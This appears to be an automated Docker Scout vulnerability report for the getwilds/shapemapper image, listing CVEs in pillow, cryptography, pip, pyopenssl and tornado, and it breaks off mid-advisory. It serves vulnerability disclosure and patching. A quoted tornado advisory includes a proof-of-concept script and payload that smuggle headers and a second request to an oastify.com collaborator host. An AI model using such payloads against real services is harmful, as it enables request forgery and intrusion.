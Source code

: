 # Vulnerability Report for getwilds/shapemapper:latest

Report generated on 2025-04-17 21:54:09 PST

<h2>:mag: Vulnerabilities of <code>getwilds/shapemapper:latest</code></h2>

<details open="true"><summary>:package: Image Reference</strong> <code>getwilds/shapemapper:latest</code></summary>
<table>
<tr><td>digest</td><td><code>sha256:f0c93f75561df83dcf378563724d2ab377973e816a27421a4098486e108133f9</code></td><tr><tr><td>vulnerabilities</td><td><img alt="critical: 1" src="https://img.shields.io/badge/critical-1-8b1924"/> <img alt="high: 16" src="https://img.shields.io/badge/high-16-e25d68"/> <img alt="medium: 29" src="https://img.shields.io/badge/medium-29-fbb552"/> <img alt="low: 22" src="https://img.shields.io/badge/low-22-fce1a9"/> <img alt="unspecified: 1" src="https://img.shields.io/badge/unspecified-1-lightgrey"/></td></tr>
<tr><td>platform</td><td>linux/amd64</td></tr>
<tr><td>size</td><td>1.1 GB</td></tr>
<tr><td>packages</td><td>253</td></tr>
</table>
</details></table>
</details>

<table>
<tr><td valign="top">
<details><summary><img alt="critical: 1" src="https://img.shields.io/badge/C-1-8b1924"/> <img alt="high: 4" src="https://img.shields.io/badge/H-4-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <img alt="unspecified: 1" src="https://img.shields.io/badge/U-1-lightgrey"/><strong>pillow</strong> <code>9.4.0</code> (pypi)</summary>

<small><code>pkg:pypi/pillow@9.4.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-50447?s=github&n=pillow&t=pypi&vr=%3C10.2.0"><img alt="critical 9.3: CVE--2023--50447" src="https://img.shields.io/badge/CVE--2023--50447-lightgrey?label=critical%209.3&labelColor=8b1924"/></a> <i>Improper Control of Generation of Code ('Code Injection')</i>

<table>
<tr><td>Affected range</td><td><code><10.2.0</code></td></tr>
<tr><td>Fixed version</td><td><code>10.2.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>9.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.376%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>58th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Pillow through 10.1.0 allows PIL.ImageMath.eval Arbitrary Code Execution via the environment parameter, a different vulnerability than CVE-2022-22817 (which was about the expression parameter).

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-4863?s=github&n=pillow&t=pypi&vr=%3C10.0.1"><img alt="high 8.8: CVE--2023--4863" src="https://img.shields.io/badge/CVE--2023--4863-lightgrey?label=high%208.8&labelColor=e25d68"/></a> <i>Out-of-bounds Write</i>

<table>
<tr><td>Affected range</td><td><code><10.0.1</code></td></tr>
<tr><td>Fixed version</td><td><code>10.0.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.8</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>93.949%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>100th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Heap buffer overflow in libwebp allow a remote attacker to perform an out of bounds memory write via a crafted HTML page. 

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-44271?s=github&n=pillow&t=pypi&vr=%3C10.0.0"><img alt="high 8.7: CVE--2023--44271" src="https://img.shields.io/badge/CVE--2023--44271-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Uncontrolled Resource Consumption</i>

<table>
<tr><td>Affected range</td><td><code><10.0.0</code></td></tr>
<tr><td>Fixed version</td><td><code>10.0.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.148%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>37th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

An issue was discovered in Pillow before 10.0.0. It is a Denial of Service that uncontrollably allocates memory to process a given task, potentially causing a service to crash by having it run out of memory. This occurs for truetype in ImageFont when textlength in an ImageDraw instance operates on a long text argument.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-28219?s=github&n=pillow&t=pypi&vr=%3C10.3.0"><img alt="high 7.3: CVE--2024--28219" src="https://img.shields.io/badge/CVE--2024--28219-lightgrey?label=high%207.3&labelColor=e25d68"/></a> <i>Buffer Copy without Checking Size of Input ('Classic Buffer Overflow')</i>

<table>
<tr><td>Affected range</td><td><code><10.3.0</code></td></tr>
<tr><td>Fixed version</td><td><code>10.3.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:P/PR:L/UI:A/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.015%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>2nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

In _imagingcms.c in Pillow before 10.3.0, a buffer overflow exists because strcpy is used instead of strncpy.

</blockquote>
</details>

<a href="https://scout.docker.com/v/GHSA-56pw-mpj4-fxww?s=github&n=pillow&t=pypi&vr=%3C10.0.1"><img alt="high : GHSA--56pw--mpj4--fxww" src="https://img.shields.io/badge/GHSA--56pw--mpj4--fxww-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code><10.0.1</code></td></tr>
<tr><td>Fixed version</td><td><code>10.0.1</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Pillow versions before v10.0.1 bundled libwebp binaries in wheels that are vulnerable to CVE-2023-5129 (previously CVE-2023-4863). Pillow v10.0.1 upgrades the bundled libwebp binary to v1.3.2.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-5129?s=pypa&n=pillow&t=pypi&vr=%3C10.0.1"><img alt="unspecified : CVE--2023--5129" src="https://img.shields.io/badge/CVE--2023--5129-lightgrey?label=unspecified%20&labelColor=lightgrey"/></a> 

<table>
<tr><td>Affected range</td><td><code><10.0.1</code></td></tr>
<tr><td>Fixed version</td><td><code>10.0.1</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.043%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>12th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Pillow versions before v10.0.1 bundled libwebp binaries in wheels that are vulnerable to CVE-2023-5129 (previously CVE-2023-4863). Pillow v10.0.1 upgrades the bundled libwebp binary to v1.3.2.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 3" src="https://img.shields.io/badge/H-3-e25d68"/> <img alt="medium: 2" src="https://img.shields.io/badge/M-2-fbb552"/> <img alt="low: 2" src="https://img.shields.io/badge/L-2-fce1a9"/> <!-- unspecified: 0 --><strong>cryptography</strong> <code>1.8.1</code> (pypi)</summary>

<small><code>pkg:pypi/cryptography@1.8.1</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-50782?s=github&n=cryptography&t=pypi&vr=%3C42.0.0"><img alt="high 8.7: CVE--2023--50782" src="https://img.shields.io/badge/CVE--2023--50782-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Observable Discrepancy</i>

<table>
<tr><td>Affected range</td><td><code><42.0.0</code></td></tr>
<tr><td>Fixed version</td><td><code>42.0.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.536%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>66th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A flaw was found in the python-cryptography package. This issue may allow a remote attacker to decrypt captured messages in TLS servers that use RSA key exchanges, which may lead to exposure of confidential or sensitive data.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2020-25659?s=github&n=cryptography&t=pypi&vr=%3C3.2"><img alt="high 8.2: CVE--2020--25659" src="https://img.shields.io/badge/CVE--2020--25659-lightgrey?label=high%208.2&labelColor=e25d68"/></a> <i>Covert Timing Channel</i>

<table>
<tr><td>Affected range</td><td><code><3.2</code></td></tr>
<tr><td>Fixed version</td><td><code>3.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.2</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:P/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.343%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>56th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

RSA decryption was vulnerable to Bleichenbacher timing vulnerabilities, which would impact people using RSA decryption in online scenarios. This is fixed in cryptography 3.2. 

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-0286?s=github&n=cryptography&t=pypi&vr=%3E%3D0.8.1%2C%3C39.0.1"><img alt="high 7.4: CVE--2023--0286" src="https://img.shields.io/badge/CVE--2023--0286-lightgrey?label=high%207.4&labelColor=e25d68"/></a> <i>Access of Resource Using Incompatible Type ('Type Confusion')</i>

<table>
<tr><td>Affected range</td><td><code>>=0.8.1<br/><39.0.1</code></td></tr>
<tr><td>Fixed version</td><td><code>39.0.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.4</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>91.013%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>100th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

pyca/cryptography's wheels include a statically linked copy of OpenSSL. The versions of OpenSSL included in cryptography 0.8.1-39.0.0  are vulnerable to a security issue. More details about the vulnerabilities themselves can be found in https://www.openssl.org/news/secadv/20221213.txt and https://www.openssl.org/news/secadv/20230207.txt.

If you are building cryptography source ("sdist") then you are responsible for upgrading your copy of OpenSSL. Only users installing from wheels built by the cryptography project (i.e., those distributed on PyPI) need to update their cryptography versions.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-23931?s=github&n=cryptography&t=pypi&vr=%3E%3D1.8%2C%3C39.0.1"><img alt="medium 6.9: CVE--2023--23931" src="https://img.shields.io/badge/CVE--2023--23931-lightgrey?label=medium%206.9&labelColor=fbb552"/></a> <i>Improper Check for Unusual or Exceptional Conditions</i>

<table>
<tr><td>Affected range</td><td><code>>=1.8<br/><39.0.1</code></td></tr>
<tr><td>Fixed version</td><td><code>39.0.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>6.9</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:L/VA:L/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.737%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>71st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Previously, `Cipher.update_into` would accept Python objects which implement the buffer protocol, but provide only immutable buffers:

```pycon
>>> outbuf = b"\x00" * 32
>>> c = ciphers.Cipher(AES(b"\x00" * 32), modes.ECB()).encryptor()
>>> c.update_into(b"\x00" * 16, outbuf)
16
>>> outbuf
b'\xdc\x95\xc0x\xa2@\x89\x89\xadH\xa2\x14\x92\x84 \x87\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

This would allow immutable objects (such as `bytes`) to be mutated, thus violating fundamental rules of Python. This is a soundness bug -- it allows programmers to misuse an API, it cannot be exploited by attacker controlled data alone.

This now correctly raises an exception.

This issue has been present since `update_into` was originally introduced in cryptography 1.8.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-0727?s=github&n=cryptography&t=pypi&vr=%3C42.0.2"><img alt="medium 5.5: CVE--2024--0727" src="https://img.shields.io/badge/CVE--2024--0727-lightgrey?label=medium%205.5&labelColor=fbb552"/></a> <i>NULL Pointer Dereference</i>

<table>
<tr><td>Affected range</td><td><code><42.0.2</code></td></tr>
<tr><td>Fixed version</td><td><code>42.0.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.160%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>38th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Issue summary: Processing a maliciously formatted PKCS12 file may lead OpenSSL
to crash leading to a potential Denial of Service attack

Impact summary: Applications loading files in the PKCS12 format from untrusted
sources might terminate abruptly.

A file in PKCS12 format can contain certificates and keys and may come from an
untrusted source. The PKCS12 specification allows certain fields to be NULL, but
OpenSSL does not correctly check for this case. This can lead to a NULL pointer
dereference that results in OpenSSL crashing. If an application processes PKCS12
files from an untrusted source using the OpenSSL APIs then that application will
be vulnerable to this issue.

OpenSSL APIs that are vulnerable to this are: PKCS12_parse(),
PKCS12_unpack_p7data(), PKCS12_unpack_p7encdata(), PKCS12_unpack_authsafes()
and PKCS12_newpass().

We have also fixed a similar issue in SMIME_write_PKCS7(). However since this
function is related to writing data we do not consider it security significant.

The FIPS modules in 3.2, 3.1 and 3.0 are not affected by this issue.

</blockquote>
</details>

<a href="https://scout.docker.com/v/GHSA-jm77-qphf-c4w8?s=github&n=cryptography&t=pypi&vr=%3E%3D0.8%2C%3C41.0.3"><img alt="low : GHSA--jm77--qphf--c4w8" src="https://img.shields.io/badge/GHSA--jm77--qphf--c4w8-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0.8<br/><41.0.3</code></td></tr>
<tr><td>Fixed version</td><td><code>41.0.3</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

pyca/cryptography's wheels include a statically linked copy of OpenSSL. The versions of OpenSSL included in cryptography 0.8-41.0.2 are vulnerable to several security issues. More details about the vulnerabilities themselves can be found in https://www.openssl.org/news/secadv/20230731.txt, https://www.openssl.org/news/secadv/20230719.txt, and https://www.openssl.org/news/secadv/20230714.txt.

If you are building cryptography source ("sdist") then you are responsible for upgrading your copy of OpenSSL. Only users installing from wheels built by the cryptography project (i.e., those distributed on PyPI) need to update their cryptography versions.

</blockquote>
</details>

<a href="https://scout.docker.com/v/GHSA-5cpq-8wj7-hf2v?s=github&n=cryptography&t=pypi&vr=%3E%3D0.5%2C%3C%3D40.0.2"><img alt="low : GHSA--5cpq--8wj7--hf2v" src="https://img.shields.io/badge/GHSA--5cpq--8wj7--hf2v-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0.5<br/><=40.0.2</code></td></tr>
<tr><td>Fixed version</td><td><code>41.0.0</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

pyca/cryptography's wheels include a statically linked copy of OpenSSL. The versions of OpenSSL included in cryptography 0.5-40.0.2 are vulnerable to a security issue. More details about the vulnerability itself can be found in https://www.openssl.org/news/secadv/20230530.txt.

If you are building cryptography source ("sdist") then you are responsible for upgrading your copy of OpenSSL. Only users installing from wheels built by the cryptography project (i.e., those distributed on PyPI) need to update their cryptography versions.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 2" src="https://img.shields.io/badge/H-2-e25d68"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>pip</strong> <code>9.0.1</code> (pypi)</summary>

<small><code>pkg:pypi/pip@9.0.1</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2019-20916?s=github&n=pip&t=pypi&vr=%3C19.2"><img alt="high 8.7: CVE--2019--20916" src="https://img.shields.io/badge/CVE--2019--20916-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')</i>

<table>
<tr><td>Affected range</td><td><code><19.2</code></td></tr>
<tr><td>Fixed version</td><td><code>19.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.629%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>69th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The pip package before 19.2 for Python allows Directory Traversal when a URL is given in an install command, because a Content-Disposition header can have ../ in a filename, as demonstrated by overwriting the /root/.ssh/authorized_keys file. This occurs in _download_http_url in _internal/download.py. A fix was committed 6704f2ace.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2021-3572?s=github&n=pip&t=pypi&vr=%3C21.1"><img alt="high 7.1: CVE--2021--3572" src="https://img.shields.io/badge/CVE--2021--3572-lightgrey?label=high%207.1&labelColor=e25d68"/></a> <i>Improper Input Validation</i>

<table>
<tr><td>Affected range</td><td><code><21.1</code></td></tr>
<tr><td>Fixed version</td><td><code>21.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.1</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.218%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>45th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A flaw was found in python-pip in the way it handled Unicode separators in git references. A remote attacker could possibly use this issue to install a different revision on a repository. The highest threat from this vulnerability is to data integrity. This is fixed in python-pip version 21.1.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-5752?s=github&n=pip&t=pypi&vr=%3C23.3"><img alt="medium 6.8: CVE--2023--5752" src="https://img.shields.io/badge/CVE--2023--5752-lightgrey?label=medium%206.8&labelColor=fbb552"/></a> <i>Improper Neutralization of Special Elements used in a Command ('Command Injection')</i>

<table>
<tr><td>Affected range</td><td><code><23.3</code></td></tr>
<tr><td>Fixed version</td><td><code>23.3</code></td></tr>
<tr><td>CVSS Score</td><td><code>6.8</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.041%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>12th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

When installing a package from a Mercurial VCS URL, e.g. `pip install hg+...`, with pip prior to v23.3, the specified Mercurial revision could be used to inject arbitrary configuration options to the `hg clone` call (e.g. `--config`). Controlling the Mercurial configuration can modify how and which repository is installed. This vulnerability does not affect users who aren't installing from Mercurial.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 2" src="https://img.shields.io/badge/H-2-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>pyopenssl</strong> <code>17.0.0</code> (pypi)</summary>

<small><code>pkg:pypi/pyopenssl@17.0.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2018-1000808?s=github&n=pyopenssl&t=pypi&vr=%3C17.5.0"><img alt="high 8.2: CVE--2018--1000808" src="https://img.shields.io/badge/CVE--2018--1000808-lightgrey?label=high%208.2&labelColor=e25d68"/></a> <i>Missing Release of Memory after Effective Lifetime</i>

<table>
<tr><td>Affected range</td><td><code><17.5.0</code></td></tr>
<tr><td>Fixed version</td><td><code>17.5.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.2</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:P/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.280%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>51st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

It was discovered that pyOpenSSL incorrectly handled memory when performing operations on a PKCS #12 store. A remote attacker could possibly use this issue to cause pyOpenSSL to consume resources, resulting in a denial of service.

This attack appear to be exploitable via Depends upon calling application, however it could be as simple as initiating a TLS connection that would cause the calling application to reload certificates from a PKCS #12 store. This vulnerability appears to have been fixed in 17.5.0.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2018-1000807?s=github&n=pyopenssl&t=pypi&vr=%3C17.5.0"><img alt="high 8.1: CVE--2018--1000807" src="https://img.shields.io/badge/CVE--2018--1000807-lightgrey?label=high%208.1&labelColor=e25d68"/></a> <i>Use After Free</i>

<table>
<tr><td>Affected range</td><td><code><17.5.0</code></td></tr>
<tr><td>Fixed version</td><td><code>17.5.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.1</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>1.889%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>82nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

It was discovered that pyOpenSSL incorrectly handled memory when handling X509 objects. A remote attacker could use this issue to cause pyOpenSSL to crash, resulting in a denial of service, or possibly execute arbitrary code. This attack appears to be exploitable via Depends on the calling application and if it retains a reference to the memory. This vulnerability appears to have been fixed in 17.5.0.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 4" src="https://img.shields.io/badge/M-4-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>tornado</strong> <code>6.2</code> (pypi)</summary>

<small><code>pkg:pypi/tornado@6.2</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-52804?s=github&n=tornado&t=pypi&vr=%3C%3D6.4.1"><img alt="high 7.5: CVE--2024--52804" src="https://img.shields.io/badge/CVE--2024--52804-lightgrey?label=high%207.5&labelColor=e25d68"/></a> <i>Uncontrolled Resource Consumption</i>

<table>
<tr><td>Affected range</td><td><code><=6.4.1</code></td></tr>
<tr><td>Fixed version</td><td><code>6.4.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.206%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>43rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The algorithm used for parsing HTTP cookies in Tornado versions prior to 6.4.2 sometimes has quadratic complexity, leading to excessive CPU consumption when parsing maliciously-crafted cookie headers. This parsing occurs in the event loop thread and may block the processing of other requests.

See also CVE-2024-7592 for a similar vulnerability in cpython.

</blockquote>
</details>

<a href="https://scout.docker.com/v/GHSA-w235-7p84-xx57?s=github&n=tornado&t=pypi&vr=%3C%3D6.4.0"><img alt="medium 6.5: GHSA--w235--7p84--xx57" src="https://img.shields.io/badge/GHSA--w235--7p84--xx57-lightgrey?label=medium%206.5&labelColor=fbb552"/></a> <i>Improper Neutralization of CRLF Sequences ('CRLF Injection')</i>

<table>
<tr><td>Affected range</td><td><code><=6.4.0</code></td></tr>
<tr><td>Fixed version</td><td><code>6.4.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>6.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary
Tornado’s `curl_httpclient.CurlAsyncHTTPClient` class is vulnerable to CRLF (carriage return/line feed) injection in the request headers.

### Details
When an HTTP request is sent using `CurlAsyncHTTPClient`, Tornado does not reject carriage return (\r) or line feed (\n) characters in the request headers. As a result, if an application includes an attacker-controlled header value in a request sent using `CurlAsyncHTTPClient`, the attacker can inject arbitrary headers into the request or cause the application to send arbitrary requests to the specified server.

This behavior differs from that of the standard `AsyncHTTPClient` class, which does reject CRLF characters.

This issue appears to stem from libcurl's (as well as pycurl's) lack of validation for the [`HTTPHEADER`](https://curl.se/libcurl/c/CURLOPT_HTTPHEADER.html) option. libcurl’s documentation states:

> The headers included in the linked list must not be CRLF-terminated, because libcurl adds CRLF after each header item itself. Failure to comply with this might result in strange behavior. libcurl passes on the verbatim strings you give it, without any filter or other safe guards. That includes white space and control characters.

pycurl similarly appears to assume that the headers adhere to the correct format. Therefore, without any validation on Tornado’s part, header names and values are included verbatim in the request sent by `CurlAsyncHTTPClient`, including any control characters that have special meaning in HTTP semantics.

### PoC
The issue can be reproduced using the following script:

```python
import asyncio

from tornado import httpclient
from tornado import curl_httpclient

async def main():
    http_client = curl_httpclient.CurlAsyncHTTPClient()

    request = httpclient.HTTPRequest(
        # Burp Collaborator payload
        "http://727ymeu841qydmnwlol261ktkkqbe24qt.oastify.com/",
        method="POST",
        body="body",
        # Injected header using CRLF characters
        headers={"Foo": "Bar\r\nHeader: Injected"}
    )

    response = await http_client.fetch(request)
    print(response.body)

    http_client.close()

if __name__ == "__main__":
    asyncio.run(main())
```

When the specified server receives the request, it contains the injected header (`Header: Injected`) on its own line:

```http
POST / HTTP/1.1
Host: 727ymeu841qydmnwlol261ktkkqbe24qt.oastify.com
User-Agent: Mozilla/5.0 (compatible; pycurl)
Accept: */*
Accept-Encoding: gzip,deflate
Foo: Bar
Header: Injected
Content-Length: 4
Content-Type: application/x-www-form-urlencoded

body
```

The attacker can also construct entirely new requests using a payload with multiple CRLF sequences. For example, specifying a header value of `\r\n\r\nPOST /attacker-controlled-url HTTP/1.1\r\nHost: 727ymeu841qydmnwlol261ktkkqbe24qt.oastify.com` results in the server receiving an additional, attacker-controlled request:

```http
POST /attacker-controlled-url HTTP/1.1
Host: 727ymeu841qydmnwlol261ktkkqbe24qt.oastify.com
Content-Length: 4
Content-Type: application/x-www-form-urlencoded

body
```

### Impact
Applications using the Tornado library to send HTTP requests with untrusted header data are affected. This issue may facilitate the exploitation of server-side request forgery (SSRF) vulnerabilities.

</blockquote>
</details>

<a href="https://scout.docker.com/v/GHSA-753j-mpmx-qq6g?s=github&n=tornado&t=pypi&vr=%3C%3D6.4.0"><img alt="medium 5.3: GHSA--753j--mpmx--qq6g" src="https://img.shields.io/badge/GHSA--753j--mpmx--qq6g-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')</i>

<table>
<tr><td>Affected range</td><td><code><=6.4.0</code></td></tr>
<tr><td>Fixed version</td><td><code>6.4.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary
When Tornado receives a request with two `Transfer-Encoding: chunked` headers, it ignores them both. This enables request smuggling when Tornado is deployed behind a proxy server that emits such requests. [Pound](https://en.wikipedia.org/wiki/Pound_(networking)) does this.

### PoC
0. Install Tornado.
1. Start a simple Tornado server that echoes each received request's body:
```bash
cat << EOF > server.py
import asyncio
import tornado

